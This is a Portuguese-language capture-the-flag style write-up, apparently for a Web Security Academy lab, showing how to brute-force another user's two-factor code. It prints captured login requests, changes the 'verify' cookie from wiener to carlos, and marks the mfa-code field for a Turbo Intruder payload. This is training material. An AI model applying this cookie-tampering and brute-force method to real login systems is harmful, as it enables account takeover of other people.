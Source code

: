 ```http

```

Para fazer brute force no código de autenticação de dois fatores que foi gerado para carlos, precisamos analisar requisição de como é feito o login.

```http

POST /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=wiener
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

mfa-code=1234

```

Podemos ver que o cookie `verify` é enviado para o servidor, e o código de autenticação de dois fatores é enviado no corpo da requisição e é através desse código que vamos fazer o brute force.

Para fazer o brute force, vamos usar uma extensão do burp suite chamada `turbo intruder`, que é uma versão do intruder so que melhorada.

Colocamos essa requisição no `turbo intruder` e alteramos os parâmetros `verify=wiener` para `verify=carlos` e o `mfa-code=1234` para `mfa-code=%s` onde o `%s` é o payload que vai ser enviado para o servidor.

```http

POST /login2 HTTP/1.1
Host: 0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Cookie: session=FIKimDUx0gZAVm4ZJPbIr21DsfiGR6yd; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net
Referer: https://0a6b009d04c77efcc09c86b000230007.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

mfa-code=%s

```

